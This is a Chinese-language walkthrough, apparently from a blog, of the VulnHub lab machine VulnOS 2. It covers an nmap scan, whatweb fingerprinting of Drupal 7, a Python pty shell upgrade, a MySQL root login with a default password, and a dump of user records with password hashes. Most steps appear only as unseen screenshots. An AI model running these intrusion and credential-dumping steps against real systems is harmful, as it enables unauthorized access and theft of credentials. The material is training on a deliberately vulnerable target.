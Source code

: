 ```yaml
---
title: Vulnhub 147 VULNOS 2 简
date: 2016-05-17
---
```


靶机链接：<https://www.vulnhub.com/entry/vulnos-2,147/>

<!--more-->

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.46 |
| VULNOS: 2  | 10.0.2.47 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.47
$ sudo nmap -v -A -p- $rip
```


![](./1.webp)

![](./2.webp)

```bash
$ whatweb http://10.0.2.47/jabc/
http://10.0.2.47/jabc/ [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.0.2.47], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.14], Script[text/javascript], Title[JABC | Just Another Bioware Company], UncommonHeaders[x-generator], X-Powered-By[PHP/5.5.9-1ubuntu4.14] 
```




![](./3.webp)


![](./4.webp)

![](./5.webp)


![](./6.webp)



![](./7.webp)


![](./8.webp)

![](./9.webp)

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")' 
$ mysql -uroot -p
mysql -uroot -p
Enter password: toor

mysql> select * from jabcd0cs.odm_user;
select * from jabcd0cs.odm_user;
+----+----------+----------------------------------+------------+-------------+--------------------+-----------+------------+---------------+
| id | username | password                         | department | phone       | Email              | last_name | first_name | pw_reset_code |
+----+----------+----------------------------------+------------+-------------+--------------------+-----------+------------+---------------+
|  1 | webmin   | b78aae356709f8c31118ea613980954b |          2 | 5555551212  | webmin@example.com | min       | web        |               |
|  2 | guest    | 084e0343a0486ff05530df6c705c8bb4 |          2 | 555 5555555 | guest@example.com  | guest     | guest      | NULL          |
+----+----------+----------------------------------+------------+-------------+--------------------+-----------+------------+---------------+
```

![](./10.webp)

![](./11.webp)

![](./12.webp)

![](./13.webp)

![](./14.webp)
